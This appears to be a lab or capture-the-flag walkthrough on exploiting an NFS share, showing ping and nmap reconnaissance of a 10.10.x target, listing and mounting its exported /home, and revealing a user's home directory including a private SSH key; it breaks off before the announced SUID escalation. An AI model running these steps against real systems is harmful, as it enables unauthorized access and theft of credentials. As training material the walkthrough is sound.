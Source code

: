 # Exploiting NFS

Exploiting NFS through root_squash: SUID.

Target: 10.10.243.171

$  ping 10.10.243.171
```
PING 10.10.243.171 (10.10.243.171) 56(84) bytes of data.
64 bytes from 10.10.243.171: icmp_seq=1 ttl=63 time=332 ms
64 bytes from 10.10.243.171: icmp_seq=2 ttl=63 time=368 ms
^C
--- 10.10.243.171 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 331.559/350.011/368.463/18.452 ms
```
$  sudo nmap -O 10.10.243.171
```
[sudo] password for isla:
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-20 18:50 WIB
Nmap scan report for 10.10.243.171
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
2049/tcp open  nfs
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.99 seconds
```
$  showmount -e 10.10.243.171
```
Export list for 10.10.243.171:
/home *
```
$  mkdir /tmp/mount-nfs
$  sudo mount -t nfs 10.10.243.171:home /tmp/mount-nfs -v
```
mount.nfs: timeout set for Thu Jun 20 18:55:03 2024
mount.nfs: trying text-based options 'vers=4.2,addr=10.10.243.171,clientaddr=10.9.2.88'
```
$  cd /tmp/mount-nfs
/tmp/mount-nfs  tree
```
.
└── cappucino
    ├── .bash_history
    ├── .bash_logout
    ├── .bashrc
    ├── .cache
    │   └── motd.legal-displayed
    ├── .gnupg
    │   └── private-keys-v1.d
    ├── .profile
    ├── .ssh
    │   ├── authorized_keys
    │   ├── id_rsa
    │   └── id_rsa.pub
    └── .sudo_as_admin_successful
```